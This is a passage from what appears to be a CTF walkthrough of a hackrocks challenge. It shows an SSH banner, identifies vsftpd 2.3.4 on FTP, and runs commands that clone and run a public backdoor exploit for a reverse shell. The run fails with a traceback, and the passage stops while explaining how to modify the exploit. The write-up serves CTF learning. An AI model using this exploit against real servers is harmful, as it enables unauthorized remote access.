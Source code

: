 |_| |_|\__,_|\___|_|\_\_|  \___/ \___|_|\_\___/
                                               
    BTW, nothing to see here. Search for other
    interesting ports to attack!
user@caixa1.hackrocks.com's password:
{{< /highlight >}}

So, no luck with SSH.

Let's continue with the FTP port.

It says that it's running <code>vsftpd 2.3.4</code> so let's look for vulnerabilities.

Lo and behold, we find an exploit in <code>exploit-db.com</code>.

We can use this exploit to obtain RCE on the server through the <code>vsftpd</code> service.

I decided to use [this one](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit) specifically, as it gets us a reverse shell on the server.

Note that it's very unstable; I'm not quite sure if it's due to the exploit being unstable, the server being unstable
or a combination of both factors.

Anyways, let's clone it and run it:

{{< highlight bash >}}
$ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit
$ cd vsftpd_2.3.4_Exploit/
$ python3 exploit.py 157.90.235.13
[<] Checking Version...
[-] Opening connection to 157.90.235.13 on port 21: Failed
[ERROR] Could not connect to 157.90.235.13 on port 21
Traceback (most recent call last):
  File "/home/cakehonolulu/Documents/vsftpd_2.3.4_Exploit/exploit.py", line 44, in <module>
    exploit.trigger_backdoor()
  File "/home/cakehonolulu/Documents/vsftpd_2.3.4_Exploit/exploit.py", line 15, in trigger_backdoor
    io = remote(self.ip,self.port)
  File "/home/cakehonolulu/.local/lib/python3.10/site-packages/pwnlib/tubes/remote.py", line 77, in __init__
    self.sock   = self._connect(fam, typ)
  File "/home/cakehonolulu/.local/lib/python3.10/site-packages/pwnlib/tubes/remote.py", line 126, in _connect
    self.error("Could not connect to %s on port %d", self.rhost, self.rport)
  File "/home/cakehonolulu/.local/lib/python3.10/site-packages/pwnlib/log.py", line 424, in error
    raise PwnlibException(message % args)
pwnlib.exception.PwnlibException: Could not connect to 157.90.235.13 on port 21
{{< /highlight >}}

If you look carefully, it doesn't work right away; we need to adjust the exploit a little bit to adjust it to our needs.

Open exploit.py with your favourite text editor and replace:

{{< highlight python >}}
...
class ExploitFTP:
        def __init__(self,ip,port=21):
...
{{< /highlight >}}
